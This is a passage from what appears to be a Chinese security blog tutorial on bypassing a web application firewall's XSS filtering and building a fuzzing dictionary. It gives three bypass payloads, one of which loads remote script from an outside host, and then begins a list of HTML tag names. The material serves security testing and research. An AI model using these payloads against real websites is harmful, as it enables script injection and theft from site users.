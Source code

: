 - - -

说实话，我在测这个waf时，过程很顺利，可能是我测过几个waf的原因，感觉对xss检测不是很严，可能是我测试的环境`太乐观了`，毕竟实战各种`鸡肋环境`，但是我发现对于HTML5新出的几个标签属性还是没过滤的，还有少数waf，on事件没过滤全，可能有些on事件属于比较鸡肋的原因。

Bypass payload:

```plain
<details open ontoggle=[1].find(alert)>
<select autofocus onfocus=[2].find(alert)>
<input autofocus onfocus=s=createElement("scriPt");body.appendChild(s);s.src="//xss.xx/1te">
```

## fuzz字典

- - -

为什么我很快能得到Bypass payload呢，因为我自己有收集和构造属于自己的字典，下面我大概讲解下自己的思路。

[![](assets/1698897346-e69549047488b3872d142fc2b9af2efd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7de1bf82-0da1-1.png)

(一个xss的基本结构)

#### \[TAG\]标签

- - -

标签方便也很简单，就多关注HTML新出了那些标签。

```plain
a
abbr
acronym
address
applet
area
article
aside
audio
b
base
basefont
bdi
bdo
big
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
datalist
dd
del
details
dfn
dialog
```
